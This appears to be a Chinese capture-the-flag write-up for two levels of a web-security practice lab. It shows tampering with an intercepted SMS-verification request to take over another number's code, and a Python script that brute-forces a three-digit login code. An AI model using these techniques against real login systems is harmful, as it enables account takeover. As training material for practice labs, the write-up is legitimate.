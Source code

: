 <h6>[第九关]</h6>

手机验证码登录，获取验证码后，提示please login as 13388886667，那就用这个号登录呗，又被告知

<img src="/images/writeup9_1.png" />

只能再用brup suite进行截取数据了。

<img src="/images/writeup9_2.png" />

有用只有6666这个号码能获取到验证码，那么就修改下数据包里面的参数，将号码改成6666获取一波验证码，试试看有没有用。

<img src="/images/writeup9_3.png" />

Get Key!

<h6>[第十关]</h6>
依旧是验证码，三位数的，python暴力的跑吧。

{% highlight python %}
#coding:utf-8

import requests

url = 'http://lab1.xseclab.com/vcode6_mobi_b46772933eb4c8b5175c67dbc44d8901/login.php'

username = '13388886666'
submit = 'submit'

vcode = 100
fobj = open('t.html','w')

cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
while True:
	post = {"username":username,'vcode':vcode,'login':submit}

	res = requests.post(url,data=post,cookies=cookie)

	print res.content,'...',vcode
	vcode += 1
	fobj.writelines(res.content)
	if 'key'  in res.content:
		break